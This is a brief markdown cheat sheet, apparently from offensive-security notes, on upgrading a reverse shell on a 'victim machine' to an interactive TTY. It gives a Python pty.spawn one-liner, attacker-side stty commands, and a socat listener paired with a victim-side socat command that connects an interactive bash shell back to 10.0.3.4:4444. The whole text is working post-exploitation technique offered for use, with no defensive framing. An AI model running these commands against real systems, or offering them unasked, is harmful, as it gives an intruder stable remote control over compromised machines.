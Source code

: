 
# Upgrade Shell

Upgrade your shell from reverse shell to tty on victim machine

## Python

In reverse shell:

`python -c 'import pty;pty.spawn("/bin/bash")'`

Send shell to background with ctrl + z 

In attacker shell:

`stty raw -echo;fg;reset`

## Socat(no python)

Download socat to victim machine

Host machine: `socat file:`tty`,raw,echo=0 tcp-listen:4444`

Victim machine: 

`chmod +x socat`

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`
